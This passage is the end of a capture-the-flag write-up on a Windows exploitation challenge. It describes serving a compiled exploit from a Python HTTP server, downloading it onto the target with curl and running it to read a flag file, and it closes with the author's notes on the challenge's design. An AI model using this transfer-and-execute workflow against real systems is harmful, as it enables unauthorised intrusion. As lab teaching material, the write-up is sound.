

Now that the exploit is working correctly on the development machine, the next step is to transfer the compiled binary to the target machine. This can be done by hosting the compiled exploit on your local machine and making it available for download. A simple way to achieve this is by using Python's built-in HTTP server. First, navigate to the directory where the compiled binary is located, and run the following command to start the HTTP server:

```bash
python3 -m http.server
```

From the target machine, you can then use `curl` to download the compiled binary directly from your host machine. The setup ensures a transparent way to move the exploit, as participants only need to provide the local IP address of their host machine within the competition network. Here’s an example of downloading the exploit from the target machine:



Once the exploit is downloaded on the target machine, it can be executed to retrieve the actual flag. Running the exploit should output the flag stored in `C:\flag\flag.txt`, as shown below:



To ensure that the challenge remained solvable throughout the competition, a precompiled version of the solution was uploaded to the target machine. This version was designed to be runnable by a low-privileged user (`health`) to perform automated health checks. These checks ran at regular intervals, verifying that the environment remained in a functional state for all participants.

The final optimized solution can be found in [./writeup/solution/](./writeup/solution/).

## Conclusion

This challenge was designed to be a bit more challenging, targeting participants with some experience in Windows exploitation. Since there were no intentional vulnerabilities in the web server or environment, only a lack of hardening, the aim was to guide participants toward the correct approach from the start. The goal was to prevent players from wasting time searching for the technique, while still creating a task that required a solid understanding of the method to successfully adapt and apply it.

If you have any questions or feedback, feel free to reach out to me on X/Twitter ([@ly4k_](https://twitter.com/ly4k_)) or Discord.
